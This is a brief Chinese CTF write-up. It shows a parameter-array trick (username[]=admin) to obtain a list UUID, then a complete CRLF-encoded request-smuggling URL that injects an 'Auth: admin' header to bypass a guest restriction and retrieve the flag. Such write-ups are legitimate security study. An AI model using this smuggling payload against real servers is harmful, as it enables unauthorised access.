


访问 ./dosearch?username[]=admin。

得到其list的uuid：0c9008c9-ec00-4532-bfa1-b917ab8e7ddb。

代码审计http.conf，发现可以通过do的形式打请求转发，请求走私可以自定义请求头 Auth，从而绕过guest

直接在url中请求走私

:::color5
/dopost/id/0c9008c9-ec00-4532-bfa1-b917ab8e7ddb%20HTTP/1.1%0d%0aHost:%20123123%0d%0aUser-Agent:%20123123%0d%0aAuth:%20admin%0d%0a%0d%0aGET%20/123

:::

然后即可得到 flag。

